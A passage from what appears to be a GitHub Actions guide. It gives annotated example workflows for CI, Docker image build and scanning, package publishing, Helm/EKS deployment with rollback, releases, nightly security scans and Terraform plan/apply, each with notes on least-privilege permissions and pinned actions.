          csv=$(find . -path '*/target/site/jacoco/jacoco.csv' | head -n1)
          [[ -n "$csv" ]] || { echo "::warning::No JaCoCo report found"; exit 0; }
          pct=$(awk -F, 'NR>1 {m+=$8; c+=$9} END {if (m+c>0) printf "%.1f", 100*c/(m+c); else print 0}' "$csv")
          echo "### Line coverage: ${pct}%" >> "$GITHUB_STEP_SUMMARY"
          awk -v p="$pct" -v min=70 'BEGIN { exit (p+0 >= min) ? 0 : 1 }' \
            || { echo "::error::Coverage ${pct}% is below the 70% floor"; exit 1; }

      - name: Upload reports
        if: ${{ !cancelled() }}
        uses: actions/upload-artifact@043fb46d1a93c77aae656e7c1c64a875d1fc6a0a  # v7.0.1
        with:
          name: backend-reports
          path: |
            **/target/surefire-reports/
            **/target/failsafe-reports/
            **/target/site/jacoco/
          retention-days: 14
```

**What it does.** Runs on PRs and on `main`; formats, compiles, tests, computes coverage and uploads reports even when tests fail.
**Why this structure.** One job is enough for a small service; splitting adds runner start-up cost. Explicit permissions, timeout, concurrency and a pinned runner image make behavior predictable. `!cancelled()` keeps evidence from failed runs.
**Security.** No secrets; read-only token; no persisted checkout credentials.
**Alternatives.** Split into parallel jobs when the test suite exceeds ~10 minutes (Example 2). Use Gradle with `gradle/actions/setup-gradle` if you build with Gradle.

### Example 2: Pull Request CI (parallel jobs plus gate)

`.github/workflows/ci.yml`

```yaml
name: CI

on:
  pull_request:
  merge_group:

permissions:
  contents: read

concurrency:
  group: ci-${{ github.event.pull_request.number || github.event.merge_group.head_sha || github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}

jobs:
  format:
    name: Format
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: mvn -B -ntp spotless:check

  lint:
    name: Static analysis
    runs-on: ubuntu-24.04
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: mvn -B -ntp -DskipTests compile checkstyle:check spotbugs:check

  test:
    name: Unit and integration tests
    runs-on: ubuntu-24.04
    timeout-minutes: 25
    cache-mode: read                      # PR jobs restore but never write the shared cache
    services:
      postgres:
        image: postgres:16.4
        env: { POSTGRES_USER: app, POSTGRES_PASSWORD: app, POSTGRES_DB: app_test }
        ports: ['5432:5432']
        options: >-
          --health-cmd "pg_isready -U app -d app_test"
          --health-interval 5s --health-timeout 5s --health-retries 12
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: mvn -B -ntp verify
        env:
          SPRING_DATASOURCE_URL: jdbc:postgresql://localhost:5432/app_test
          SPRING_DATASOURCE_USERNAME: app
          SPRING_DATASOURCE_PASSWORD: app
      - uses: actions/upload-artifact@043fb46d1a93c77aae656e7c1c64a875d1fc6a0a  # v7.0.1
        if: ${{ !cancelled() }}
        with:
          name: test-reports
          path: |
            **/target/surefire-reports/
            **/target/failsafe-reports/
          retention-days: 14

  dependency-review:
    name: Dependency review
    if: ${{ github.event_name == 'pull_request' }}
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/dependency-review-action@a1d282b36b6f3519aa1f3fc636f609c47dddb294  # v5.0.0
        with:
          fail-on-severity: high

  ci-gate:
    name: CI gate
    if: ${{ always() }}
    needs: [format, lint, test, dependency-review]
    runs-on: ubuntu-24.04
    permissions: {}
    steps:
      - name: Require all needed jobs to succeed or be skipped
        env:
          NEEDS_JSON: ${{ toJSON(needs) }}
        run: |
          echo "$NEEDS_JSON" | jq -r 'to_entries[] | "\(.key): \(.value.result)"'
          echo "$NEEDS_JSON" | jq -e 'all(.[]; .result == "success" or .result == "skipped")' >/dev/null
```

**What it does.** Format, static analysis, tests and dependency review run in parallel; `CI gate` is the single **required** status check.
**Why.** Fast, parallel feedback; a gate job keeps branch protection stable when jobs are renamed or skipped (`dependency-review` is skipped in merge queues). `cache-mode: read` prevents PR runs from writing the shared cache.
**Security.** Everything runs on `pull_request` with no secrets. The database credentials are throwaway values for an ephemeral container.
**Alternatives.** Add a CodeQL workflow (Example 10 and Chapter 46); shard tests with a matrix for large suites.

### Example 3: Docker Build (GHCR)

`.github/workflows/docker.yml`

```yaml
name: Docker build

on:
  push:
    branches: [main]
    tags: ['v*.*.*']
  pull_request:
    paths: ['Dockerfile', 'src/**', 'pom.xml', '.dockerignore']   # not a required check, so path filtering is safe

permissions:
  contents: read

jobs:
  image:
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    permissions:
      contents: read
      packages: write          # push to GHCR
    outputs:
      digest: ${{ steps.build.outputs.digest }}
      image: ${{ steps.name.outputs.image }}
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }

      - id: name
        name: Lowercase image name (GHCR requires it)
        run: echo "image=ghcr.io/${GITHUB_REPOSITORY,,}" >> "$GITHUB_OUTPUT"

      - uses: docker/setup-buildx-action@f87e5991a6d7451dcb8d9637bfbc97413f497069  # v4.4.1

      - name: Log in to GHCR
        if: ${{ github.event_name != 'pull_request' }}
        uses: docker/login-action@dbcb813823bdd20940b903addbd779551569679f  # v4.6.0
        with:
          registry: ghcr.io
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - id: meta
        uses: docker/metadata-action@dc802804100637a589fabce1cb79ff13a1411302  # v6.2.0
        with:
          images: ${{ steps.name.outputs.image }}
          tags: |
            type=sha,format=short
            type=semver,pattern={{version}}
            type=semver,pattern={{major}}.{{minor}}

      - id: build
        uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc  # v7.4.0
        with:
          context: .
          push: ${{ github.event_name != 'pull_request' }}
          tags: ${{ steps.meta.outputs.tags }}
          labels: ${{ steps.meta.outputs.labels }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
          provenance: mode=max
          sbom: true

      - name: Summary
        if: ${{ github.event_name != 'pull_request' }}
        env:
          DIGEST: ${{ steps.build.outputs.digest }}
          IMAGE: ${{ steps.name.outputs.image }}
        run: echo "Pushed \`${IMAGE}@${DIGEST}\`" >> "$GITHUB_STEP_SUMMARY"
```

**What it does.** Builds on every relevant PR (no push) and pushes tagged images from `main` and version tags, with layer caching, SBOM and provenance attestations from BuildKit.
**Why.** Push requires `packages: write` only in this job. The **digest** is exported as an output because the digest is the identity deployments should use. No `latest` tag is produced.
**Security.** PRs never get registry credentials (login skipped). Tags are immutable-by-convention: enable immutability if your registry supports it.
**Alternatives.** Use ECR/ACR/Artifact Registry with OIDC (Chapter 46). Use native ARM runners plus a manifest merge for multi-platform images instead of QEMU.

### Example 4: Docker Build plus Security Scan (scan before push)

```yaml
name: Docker build and scan

on:
  push:
    branches: [main]

permissions:
  contents: read

jobs:
  image:
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    permissions:
      contents: read
      packages: write
      security-events: write     # upload SARIF
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: docker/setup-buildx-action@f87e5991a6d7451dcb8d9637bfbc97413f497069  # v4.4.1

      - name: Build image locally (not pushed yet)
        uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc  # v7.4.0
        with:
          context: .
          load: true
          push: false
          tags: orders-service:scan
          cache-from: type=gha
          cache-to: type=gha,mode=max

      - name: Trivy scan (gate on fixable HIGH/CRITICAL)
        uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25  # v0.36.0
        with:
          image-ref: orders-service:scan
          format: table
          severity: CRITICAL,HIGH
          ignore-unfixed: true
          exit-code: '1'

      - name: Trivy SARIF (visibility, not a gate)
        if: ${{ !cancelled() }}
        uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25  # v0.36.0
        with:
          image-ref: orders-service:scan
          format: sarif
          output: trivy.sarif
          severity: CRITICAL,HIGH,MEDIUM
          exit-code: '0'

      - name: Upload SARIF to code scanning
        if: ${{ !cancelled() }}
        uses: github/codeql-action/upload-sarif@1c5b675653bb5c22dbe9b12b556ec555138e09fd  # v4.38.1
        with:
          sarif_file: trivy.sarif

      - uses: docker/login-action@dbcb813823bdd20940b903addbd779551569679f  # v4.6.0
        with:
          registry: ghcr.io
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - name: Push (only reached if scan passed)
        uses: docker/build-push-action@c3c9e263c25d99ce0380d002d59b67737d91b0dc  # v7.4.0
        with:
          context: .
          push: true
          tags: ghcr.io/ORG/orders-service:sha-${{ github.sha }}
          cache-from: type=gha
```

**What it does.** Builds, scans the local image, uploads findings, and pushes only if the scan passes.
**Why.** Blocking before push means a vulnerable image never lands in the registry. The second build is a cache hit (seconds).
**Caveat.** The pushed image is rebuilt from cache; its config timestamps can differ, so its **digest can differ from the scanned image**. For strict equivalence, push to a quarantine tag first, scan **by digest**, then promote. Chapter 46 scans the pushed digest.
**Security note.** The Trivy action family was the target of a real supply-chain compromise in March 2026 (Chapter 34). Pin by SHA (as here), prefer immutable releases, and consider Grype or Docker Scout as alternatives. Scan thresholds: block on *fixable* HIGH/CRITICAL, track the rest.
**Replace `ORG`** with your lowercase organization name.

### Example 5: Publish a Package (Maven to GitHub Packages)

```yaml
name: Publish package

on:
  release:
    types: [published]

permissions:
  contents: read

jobs:
  publish:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    permissions:
      contents: read
      packages: write
    steps:
      - name: Validate release tag
        env:
          TAG: ${{ github.event.release.tag_name }}
        run: |
          [[ "$TAG" =~ ^v[0-9]+\.[0-9]+\.[0-9]+$ ]] || { echo "::error::Tag must look like v1.2.3"; exit 1; }
          echo "VERSION=${TAG#v}" >> "$GITHUB_ENV"

      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with:
          ref: ${{ github.event.release.tag_name }}
          persist-credentials: false

      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with:
          distribution: temurin
          java-version: '21'
          cache: maven
          server-id: github
          server-username: MAVEN_USERNAME
          server-password: MAVEN_PASSWORD

      - name: Set version from tag and deploy
        run: |
          mvn -B -ntp versions:set -DnewVersion="$VERSION" -DgenerateBackupPoms=false
          mvn -B -ntp -DskipTests deploy
        env:
          MAVEN_USERNAME: ${{ github.actor }}
          MAVEN_PASSWORD: ${{ secrets.GITHUB_TOKEN }}
```

**What it does.** When a GitHub Release is published, validates the tag, sets the Maven version from it and publishes to GitHub Packages.
**Why.** Publishing is tied to an explicit, protected action (a release) and to a **release version, never a `-SNAPSHOT`**. `packages: write` exists only in this job. Your `pom.xml` needs a `distributionManagement` section with `<id>github</id>` and the repository URL.
**Security.** The tag value is validated and passed via `env` (Chapter 35). Protect tag creation with a ruleset so only maintainers can cut releases.
**Alternatives.** Maven Central via a staging flow with a signing key (an environment secret) or OIDC-based trusted publishing where supported; npm/PyPI trusted publishing with OIDC.

### Example 6: Deploy to Development (the reusable deployment core)

This reusable workflow is the **single deployment mechanism** for all environments (dev, staging, production, rollback). Environments differ only by variables, secrets and protection rules.

`.github/workflows/deploy.yml`

```yaml
name: Deploy (reusable)

on:
  workflow_call:
    inputs:
      environment:
        type: string
        required: true
      image-repository:
        description: Image repository URI without tag or digest
        type: string
        required: true
      image-digest:
        description: Image digest (sha256:...)
        type: string
        required: true
      expected-sha:
        description: Commit expected to be reported by /actuator/info after deploy
        type: string
        required: false
        default: ''
    outputs:
      url:
        description: Service URL
        value: ${{ jobs.deploy.outputs.url }}
      previous-revision:
        description: Helm revision before this deployment
        value: ${{ jobs.deploy.outputs.previous-revision }}

permissions:
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-24.04
    timeout-minutes: 25
    environment:
      name: ${{ inputs.environment }}
      url: ${{ steps.info.outputs.url }}
    permissions:
      contents: read
      id-token: write            # AWS OIDC
    concurrency:
      group: deploy-${{ inputs.environment }}
      cancel-in-progress: false  # never kill an in-flight deployment
    outputs:
      url: ${{ steps.info.outputs.url }}
      previous-revision: ${{ steps.prev.outputs.revision }}
    env:
      NAMESPACE: orders
      RELEASE: orders-service
    steps:
      - name: Validate inputs
        env:
          ENVIRONMENT: ${{ inputs.environment }}
          DIGEST: ${{ inputs.image-digest }}
          REPO: ${{ inputs.image-repository }}
        run: |
          [[ "$ENVIRONMENT" =~ ^(dev|staging|production)$ ]] || { echo "::error::bad environment"; exit 1; }
          [[ "$DIGEST" =~ ^sha256:[0-9a-f]{64}$ ]] || { echo "::error::bad digest"; exit 1; }
          [[ "$REPO" =~ ^[a-z0-9./_:-]+$ ]] || { echo "::error::bad repository"; exit 1; }

      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with:
          persist-credentials: false

      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_ROLE_ARN }}          # environment variable, differs per environment
          aws-region: ${{ vars.AWS_REGION }}
          role-session-name: deploy-${{ github.run_id }}

      - uses: azure/setup-kubectl@829323503d1be3d00ca8346e5391ca0b07a9ab0d  # v5.1.0
      - uses: azure/setup-helm@9bc31f4ebc9c6b171d7bfbaa5d006ae7abdb4310  # v5.0.1
        with:
          version: v3.19.0          # pin the Helm you have tested

      - name: Connect to cluster
        env:
          CLUSTER: ${{ vars.EKS_CLUSTER_NAME }}
          REGION: ${{ vars.AWS_REGION }}
        run: aws eks update-kubeconfig --name "$CLUSTER" --region "$REGION"

      - id: prev
        name: Record previous Helm revision (for rollback)
        run: |
          rev=$(helm history "$RELEASE" -n "$NAMESPACE" -o json 2>/dev/null \
                | jq -r 'map(select(.status=="deployed")) | last | .revision // empty' || true)
          echo "revision=${rev:-}" >> "$GITHUB_OUTPUT"

      - name: Helm upgrade by digest
        env:
          ENVIRONMENT: ${{ inputs.environment }}
          IMAGE_REPO: ${{ inputs.image-repository }}
          IMAGE_DIGEST: ${{ inputs.image-digest }}
        run: |
          helm upgrade --install "$RELEASE" ./helm/orders-service \
            --namespace "$NAMESPACE" --create-namespace \
            -f "helm/values-${ENVIRONMENT}.yaml" \
            --set image.repository="$IMAGE_REPO" \
            --set image.digest="$IMAGE_DIGEST" \
            --set-string podAnnotations.commit="$GITHUB_SHA" \
            --atomic --wait --timeout 10m       # Helm 4 name: --rollback-on-failure

      - id: info
        name: Resolve service URL
        env:
          SERVICE_URL: ${{ vars.SERVICE_URL }}
        run: echo "url=${SERVICE_URL}" >> "$GITHUB_OUTPUT"

      - name: Smoke test and version check
        env:
          BASE_URL: ${{ vars.SERVICE_URL }}
          EXPECTED_SHA: ${{ inputs.expected-sha }}
        run: ./scripts/smoke-test.sh "$BASE_URL" "$EXPECTED_SHA"

      - name: Roll back if verification failed
        if: ${{ failure() && steps.prev.outputs.revision != '' }}
        env:
          PREV: ${{ steps.prev.outputs.revision }}
        run: |
          echo "::error::Verification failed. Rolling back to revision $PREV"
          helm rollback "$RELEASE" "$PREV" -n "$NAMESPACE" --wait --timeout 10m
```

Caller for **development** (in your main pipeline):

```yaml
  deploy-dev:
    needs: build
    uses: ./.github/workflows/deploy.yml
    with:
      environment: dev
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ needs.build.outputs.digest }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read
      id-token: write
```

**What it does.** Validates inputs, assumes an environment-specific AWS role via OIDC, connects to EKS, records the current Helm revision, upgrades **by digest** with `--atomic` (auto-rollback if pods never become ready), runs smoke and version checks, and rolls back to the previous revision if those checks fail.
**Why one job.** Approval rules apply *per job that references the environment*. Keeping deploy, verify and rollback in the **same job** means production requires **one** approval, and the rollback step already has cluster credentials.
**Concurrency.** The job-level group serializes deployments per environment and never cancels a running one. Note the default single-pending behavior from Chapter 19.
**Security.** Only `id-token: write` and `contents: read`. Inputs validated by regex. No secrets: everything sensitive is in the cloud role.
**Caller permissions.** A called workflow can only keep or reduce the permissions granted by the caller, so the caller job must grant `id-token: write`.
**Alternatives.** GitOps (commit the digest and let Argo CD reconcile), ECS (`aws ecs update-service`), or a platform deploy API.

### Example 7: Deploy to Staging

```yaml
  deploy-staging:
    needs: [build, deploy-dev]
    uses: ./.github/workflows/deploy.yml
    with:
      environment: staging
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ needs.build.outputs.digest }}
      expected-sha: ${{ github.sha }}
    permissions:
      contents: read
      id-token: write

  staging-tests:
    needs: deploy-staging
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    environment: staging          # gives access to staging-only test variables/secrets
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6  # v6.0.1
        with: { distribution: temurin, java-version: '21', cache: maven }
      - name: Integration/e2e tests against staging
        env:
          BASE_URL: ${{ needs.deploy-staging.outputs.url }}
          E2E_API_KEY: ${{ secrets.E2E_API_KEY }}
        run: mvn -B -ntp -Pe2e verify -Dbase.url="$BASE_URL"
```

**Why.** Staging uses the **same digest** and **same workflow** as dev; staging tests gate the production stage. `staging` typically has no required reviewers, but a branch policy restricting it to `main`.
**Security.** The staging test key lives in the `staging` environment, not the repository. Tests are trusted code (they run only after merge).

### Example 8: Production Deployment

`.github/workflows/deploy-production.yml` (manual, hotfix-friendly)

```yaml
name: Deploy production

on:
  workflow_dispatch:
    inputs:
      image-digest:
        description: 'Image digest already deployed to staging (sha256:...)'
        type: string
        required: true
      commit-sha:
        description: 'Commit SHA the image was built from'
        type: string
        required: true

run-name: Deploy production ${{ inputs.commit-sha }} by @${{ github.actor }}

permissions:
  contents: read

jobs:
  guard:
    name: Verify artifact provenance
    runs-on: ubuntu-24.04
    timeout-minutes: 10
    permissions:
      contents: read
      id-token: write
    steps:
      - name: Validate inputs
        env:
          DIGEST: ${{ inputs.image-digest }}
          SHA: ${{ inputs.commit-sha }}
        run: |
          [[ "$DIGEST" =~ ^sha256:[0-9a-f]{64}$ ]] || { echo "::error::bad digest"; exit 1; }
          [[ "$SHA" =~ ^[0-9a-f]{40}$ ]] || { echo "::error::bad sha"; exit 1; }
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_ECR_READ_ROLE_ARN }}      # pull-only role
          aws-region: ${{ vars.AWS_REGION }}
      - uses: aws-actions/amazon-ecr-login@03f1aad4c6c7ffd436567f42f9384779290529bd  # v2.1.7
      - name: Verify the image was built by this repository's workflow
        env:
          GH_TOKEN: ${{ github.token }}
          IMAGE: ${{ vars.ECR_REPOSITORY_URI }}
          DIGEST: ${{ inputs.image-digest }}
          REPO: ${{ github.repository }}
        run: gh attestation verify "oci://${IMAGE}@${DIGEST}" --repo "$REPO"

  deploy:
    needs: guard
    uses: ./.github/workflows/deploy.yml     # same core as dev/staging
    with:
      environment: production                # requires reviewers, main/tag branch policy
      image-repository: ${{ vars.ECR_REPOSITORY_URI }}
      image-digest: ${{ inputs.image-digest }}
      expected-sha: ${{ inputs.commit-sha }}
    permissions:
      contents: read
      id-token: write

  notify:
    needs: deploy
    if: ${{ always() }}
    uses: ./.github/workflows/notify.yml
    with:
      environment: production
      status: ${{ needs.deploy.result }}
      version: ${{ inputs.commit-sha }}
    secrets:
      SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
    permissions: {}
```

**What it does.** A person (or the pipeline in Chapter 46) selects a digest that already passed staging. The workflow verifies its provenance, then the `production` environment holds the deploy job for **required reviewers**, then deploys through the shared core with health checks and automatic rollback, then notifies.
**Why.** Approval, OIDC role trust (`sub = environment:production`), branch policy and concurrency all converge on the one job that touches production. The provenance check ensures only artifacts built by your own pipeline can ship. (Attestation verification on private repositories needs GitHub Enterprise Cloud.)
**Rollback strategy.** Automatic: Helm `--atomic` and the rollback step. Manual: Example 23.
**Alternative.** Continuous deployment: call the same core from the main pipeline right after staging tests (Chapter 46), letting the `production` environment provide the human gate.

### Example 9: Release Workflow

```yaml
name: Release

on:
  push:
    tags: ['v*.*.*']

permissions:
  contents: read

concurrency:
  group: release-${{ github.ref_name }}
  cancel-in-progress: false

jobs:
  release:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    environment: release
    permissions:
      contents: write        # create the GitHub Release
      id-token: write        # AWS OIDC to retag the image
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with:
          fetch-depth: 0
          persist-credentials: false

      - name: Validate tag and that the commit is on main
        env:
          TAG: ${{ github.ref_name }}
        run: |
          [[ "$TAG" =~ ^v[0-9]+\.[0-9]+\.[0-9]+$ ]] || { echo "::error::Bad tag"; exit 1; }
          git fetch origin main --depth=1000
          git merge-base --is-ancestor "$GITHUB_SHA" origin/main \
            || { echo "::error::Tagged commit is not on main"; exit 1; }

      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: ${{ vars.AWS_RELEASE_ROLE_ARN }}
          aws-region: ${{ vars.AWS_REGION }}

      - name: Retag the already-built image (no rebuild)
        env:
          TAG: ${{ github.ref_name }}
          REPO_NAME: ${{ vars.ECR_REPOSITORY_NAME }}
        run: |
          set -euo pipefail
          short=${GITHUB_SHA::7}
          digest=$(aws ecr describe-images --repository-name "$REPO_NAME" \
                   --image-ids imageTag="sha-${short}" --query 'imageDetails[0].imageDigest' --output text)
          [[ "$digest" == sha256:* ]] || { echo "::error::No image built for this commit"; exit 1; }
          manifest=$(aws ecr batch-get-image --repository-name "$REPO_NAME" \
                     --image-ids imageDigest="$digest" --query 'images[0].imageManifest' --output text)
          aws ecr put-image --repository-name "$REPO_NAME" --image-tag "${TAG#v}" --image-manifest "$manifest"
          echo "Released ${TAG#v} = $digest" >> "$GITHUB_STEP_SUMMARY"

      - name: Create GitHub Release
        env:
          GH_TOKEN: ${{ github.token }}
          TAG: ${{ github.ref_name }}
        run: gh release create "$TAG" --verify-tag --generate-notes --title "$TAG"
```

**What it does.** On a version tag, confirms the commit is on `main`, retags the **image already built for that commit** (no rebuild), and creates a GitHub Release with generated notes.
**Why.** Build ≠ release: the tested artifact gets a version identity. The job fails if no image exists for the commit, which catches tagging an unbuilt commit. Tag creation is protected by a ruleset (only maintainers).
**Security.** `contents: write` only here; release credentials are a separate cloud role; the `release` environment can require approval. Use immutable tags in ECR so `1.4.2` cannot be moved.
**Alternatives.** release-please/semantic-release for automated versioning and changelog PRs; `gh release` with attached SBOM/provenance files.

### Example 10: Scheduled Security Scan

```yaml
name: Scheduled security scan

on:
  schedule:
    - cron: '23 3 * * *'        # nightly, off the hour to avoid the thundering herd
  workflow_dispatch:

permissions:
  contents: read

jobs:
  scan:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    permissions:
      contents: read
      security-events: write
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }

      - name: Scan repository dependencies and config
        uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25  # v0.36.0
        with:
          scan-type: fs
          scan-ref: .
          format: sarif
          output: trivy-fs.sarif
          severity: CRITICAL,HIGH
          ignore-unfixed: true
          exit-code: '0'

      - uses: github/codeql-action/upload-sarif@1c5b675653bb5c22dbe9b12b556ec555138e09fd  # v4.38.1
        if: ${{ !cancelled() }}
        with:
          sarif_file: trivy-fs.sarif
          category: nightly-trivy-fs

  notify-on-failure:
    needs: scan
    if: ${{ failure() }}
    runs-on: ubuntu-24.04
    permissions: {}
    steps:
      - name: Tell the team the nightly scan itself broke
        env:
          SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK_URL }}
          RUN_URL: ${{ github.server_url }}/${{ github.repository }}/actions/runs/${{ github.run_id }}
        run: |
          payload=$(jq -n --arg t ":warning: Nightly security scan failed: <${RUN_URL}|view run>" '{text:$t}')
          curl --fail -sS --max-time 15 -H 'Content-Type: application/json' -d "$payload" "$SLACK_WEBHOOK_URL"
```

**What it does.** Nightly scans dependencies (from `pom.xml`) against fresh vulnerability data and reports to the Security tab, catching **newly disclosed CVEs in unchanged code**. It also alerts if the scan job itself fails.
**Why.** Pull request scans only see what changed. Findings go to code scanning (tracked, deduplicated) rather than failing a random unrelated PR. `workflow_dispatch` allows manual runs; schedules run on the default branch's latest commit.
**Security.** Read-only except `security-events: write`. Pinned scanner.

---

### Example 11: Terraform Plan (pull request)

`.github/workflows/terraform-plan.yml`

```yaml
name: Terraform plan

on:
  pull_request:
    paths: ['terraform/**', '.github/workflows/terraform-*.yml']

permissions:
  contents: read

concurrency:
  group: tf-plan-${{ github.event.pull_request.number }}
  cancel-in-progress: true

jobs:
  plan:
    # Fork PRs get no OIDC and no secrets; skip them instead of failing confusingly.
    if: ${{ github.event.pull_request.head.repo.full_name == github.repository }}
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    strategy:
      fail-fast: false
      matrix:
        env: [dev, staging, production]
    permissions:
      contents: read
      id-token: write          # OIDC to the READ-ONLY plan role
      pull-requests: write     # post the plan
    defaults:
      run:
        working-directory: terraform/envs/${{ matrix.env }}
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }

      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-terraform-plan-readonly
          aws-region: eu-west-1

      - uses: hashicorp/setup-terraform@dfe3c3f87815947d99a8997f908cb6525fc44e9e  # v4.0.1
        with:
          terraform_version: 1.13.0
          terraform_wrapper: false

      - run: terraform fmt -check -recursive
      - run: terraform init -input=false
      - run: terraform validate -no-color
      - id: plan
        run: terraform plan -input=false -no-color -lock-timeout=5m -out=tfplan

      - name: Render plan
        run: terraform show -no-color tfplan > plan.txt

      - name: Comment plan on the PR
        uses: actions/github-script@3a2844b7e9c422d3c10d287c895573f7108da1b3  # v9.0.0
        env:
          ENV_NAME: ${{ matrix.env }}
        with:
          script: |
            const fs = require('fs');
            const plan = fs.readFileSync(process.env.GITHUB_WORKSPACE + '/terraform/envs/' + process.env.ENV_NAME + '/plan.txt', 'utf8').slice(0, 60000);
            const body = '### Terraform plan: `' + process.env.ENV_NAME + '`\n\n```\n' + plan + '\n```';
            await github.rest.issues.createComment({
              owner: context.repo.owner, repo: context.repo.repo,
              issue_number: context.issue.number, body
            });
```

**What it does.** For every environment, formats, validates and plans with a **read-only cloud role**, and posts the plan to the PR.
**Why.** Reviewers approve *what will change*, not just code. State locking (`-lock-timeout`) with a remote backend is assumed. The plan job cannot change infrastructure, so a malicious PR from a same-repo branch gets little.
**Security.** The OIDC trust for this role trusts the `pull_request` subject and grants only read/plan permissions. Plans may contain sensitive values: on a public repository do not post them (use a summary). Fork PRs are skipped.
**Alternatives.** Atlantis, Terraform Cloud, or Spacelift for plan/apply orchestration.

### Example 12: Terraform Apply (approved, saved plan)

`.github/workflows/terraform-apply.yml`

```yaml
name: Terraform apply

on:
  push:
    branches: [main]
    paths: ['terraform/envs/production/**', 'terraform/modules/**']

permissions:
  contents: read

jobs:
  plan:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    permissions:
      contents: read
      id-token: write
    defaults:
      run:
        working-directory: terraform/envs/production
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-terraform-plan-readonly
          aws-region: eu-west-1
      - uses: hashicorp/setup-terraform@dfe3c3f87815947d99a8997f908cb6525fc44e9e  # v4.0.1
        with: { terraform_version: 1.13.0, terraform_wrapper: false }
      - run: terraform init -input=false
      - run: terraform plan -input=false -no-color -lock-timeout=5m -out=tfplan
      - run: terraform show -no-color tfplan >> "$GITHUB_STEP_SUMMARY"
      - uses: actions/upload-artifact@043fb46d1a93c77aae656e7c1c64a875d1fc6a0a  # v7.0.1
        with:
          name: tfplan-production
          path: terraform/envs/production/tfplan
          retention-days: 1          # plan files can contain sensitive values

  apply:
    needs: plan
    runs-on: ubuntu-24.04
    timeout-minutes: 45
    environment: infra-production     # required reviewers, main-only
    permissions:
      contents: read
      id-token: write
    concurrency:
      group: terraform-production     # one apply at a time; never cancel
      cancel-in-progress: false
    defaults:
      run:
        working-directory: terraform/envs/production
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # v7.0.1
        with: { persist-credentials: false }
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd  # v6.3.0
        with:
